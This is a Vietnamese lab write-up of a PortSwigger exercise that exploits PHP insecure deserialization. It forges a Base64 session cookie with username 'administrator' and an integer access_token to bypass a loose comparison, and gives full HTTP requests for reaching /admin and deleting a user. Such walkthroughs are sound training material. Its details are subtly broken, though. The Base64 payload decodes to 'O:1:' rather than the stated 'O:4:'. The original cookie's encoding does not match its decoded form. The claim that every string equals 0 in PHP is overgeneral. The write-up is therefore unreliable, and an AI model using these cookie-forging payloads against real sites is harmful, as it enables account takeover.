






# Write-up: Modifying serialized data types

### Tổng quan
Khai thác lỗ hổng **Insecure Deserialization** trong ứng dụng PHP, nơi cookie `session` chứa đối tượng serialized `User` được xử lý mà không kiểm tra tính toàn vẹn. Bằng cách sửa đổi kiểu dữ liệu của thuộc tính `access_token` từ string sang integer, kẻ tấn công lợi dụng cơ chế so sánh lỏng lẻo (`==`) trong PHP để bypass kiểm tra xác thực, leo thang đặc quyền thành `administrator`, và xóa tài khoản `carlos`, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **Insecure Deserialization** bằng cách sửa đổi kiểu dữ liệu của `access_token` trong đối tượng `User` serialized, đặt `username` thành `administrator` để bypass kiểm tra xác thực, truy cập giao diện admin và xóa tài khoản `carlos`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và quan sát cookie `session` trong Burp Proxy:  
  ```
  GET /my-account HTTP/2
  Host: 0aa1008i09jk0123e0fg078900hi00fe.web-security-academy.net
  Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJzYnB1cnM1enI5ZG81ajg0eHFxcDVrZG5sb3Z6MHZ6ZSI7fQ==
  ```
    
- **Phân tích cookie**:  
  - Giải mã Base64, cookie chứa đối tượng serialized: 
    
    ```php
    O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sbpurs5zr9do5j84xqqp5kdnlovz0vze";}
    ```  
  - Đoán rằng ứng dụng so sánh `access_token` với giá trị lưu trong cơ sở dữ liệu:  
    ```php
    if ($access_tokens[$user->username] == $user->access_token) {
        // login thành công
    } else {
        throw new Exception("Invalid access token");
    }
    ```  
  - Trong PHP, so sánh lỏng lẻo (`==`) cho phép bypass nếu `access_token` là integer `0`, vì bất kỳ chuỗi nào so sánh với `0` đều trả về `true` (ví dụ: `"abc123" == 0` là `true`).

2. **Khai thác (Exploitation)**  
- **Ý tưởng khai thác**:  
  - Sửa đối tượng `User` serialized, đặt `username` thành `administrator` và `access_token` thành integer `0` để bypass kiểm tra so sánh lỏng lẻo.  
  - Payload:  
    ```php
    O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
    ```  
- Mã hóa payload thành Base64:  
    
  ```
  TzoxOiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
  ```  
- Thay thế cookie `session` trong Burp Repeater:  
  ```
  GET /admin HTTP/2
  Host: 0aa1008i09jk0123e0fg078900hi00fe.web-security-academy.net
  Cookie: session=TzoxOiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
  ```  
- Gửi request, server unserialize cookie, bypass kiểm tra `access_token` (`"abc123" == 0` trả về `true`), cấp quyền truy cập giao diện admin:  
    
- Truy cập `/admin` và xóa tài khoản `carlos` (thường qua endpoint như `POST /admin/delete?username=carlos`):  
  ```
  POST /admin/delete HTTP/2
  Host: 0aa1008i09jk0123e0fg078900hi00fe.web-security-academy.net
  Cookie: session=TzoxOiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9

  username=carlos
  ```  
  
- **Ý tưởng payload**:  
  - Sửa `username` thành `administrator` và `access_token` thành `i:0` để bypass so sánh lỏng lẻo, leo thang đặc quyền và xóa tài khoản `carlos`.  
- **Kết quả**:  
  - Tài khoản `carlos` bị xóa, lab xác nhận hoàn thành:  
      

### Bài học rút ra
- Hiểu cách khai thác **Insecure Deserialization** trong PHP bằng cách sửa đổi kiểu dữ liệu của `access_token` từ string sang integer, tận dụng so sánh lỏng lẻo (`==`) để bypass kiểm tra xác thực và leo thang đặc quyền.  
- Nhận thức tầm quan trọng của việc tránh deserialize dữ liệu người dùng, sử dụng digital signature để kiểm tra tính toàn vẹn, kiểm tra nghiêm ngặt kiểu dữ liệu, hoặc thay thế bằng định dạng an toàn như JSON để ngăn chặn các cuộc tấn công deserialization.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Insecure Deserialization** trong PHP bằng cách lợi dụng so sánh lỏng lẻo, nhấn mạnh tầm quan trọng của việc kiểm tra kiểu dữ liệu nghiêm ngặt và bảo vệ dữ liệu serialized để ngăn chặn leo thang đặc quyền. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*